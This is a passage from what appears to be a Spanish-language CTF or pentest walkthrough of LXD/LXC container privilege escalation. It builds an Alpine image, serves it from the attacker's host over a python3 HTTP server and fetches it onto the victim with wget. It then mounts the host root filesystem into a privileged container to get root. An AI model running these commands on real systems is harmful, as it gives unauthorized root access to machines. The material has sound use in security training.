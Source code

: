 ```shell

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

Ahora una vez hecho todo lo anterior nos pasaremos 2 archivos a la maquina victima mediante un servidor de `python3`...

```shell
python3 -m http.server 80
```

Y en nuestra maquina victima nos lo descargamos poniendo la IP de nuestro `host` con el `puerto`...

```shell
wget http://<IP>:80/<FILES>
```

Los 2 archivos que nos descargaremos seran `incus.tar.xz` y `rootfs.squashfs`, pero al archivo `incus.tar.xz` se lo cambiare a `lxd.tar.xz`...

```shell
mv incus.tar.xz lxd.tar.xz
```

Todo esto lo meteremos en la carpeta `/tmp` y dentro del servidor haremos los siguiente comandos...

```shell
lxc storage list
```

Para ver el alias que tiene el contenedor donde vamos a depositar la informacion por asi llamarlo...

```
+--------+-------------+--------+-----------------------------------+---------+
|  NAME  | DESCRIPTION | DRIVER |              SOURCE               | USED BY |
+--------+-------------+--------+-----------------------------------+---------+
| mypool |             | dir    | /var/lib/lxd/storage-pools/mypool | 0       |
+--------+-------------+--------+-----------------------------------+---------+
```

```shell
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true -s mypool

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

```shell
lxc start privesc

#Para ser root
lxc exec privesc /bin/sh

cd /mnt/root

cd root/
```
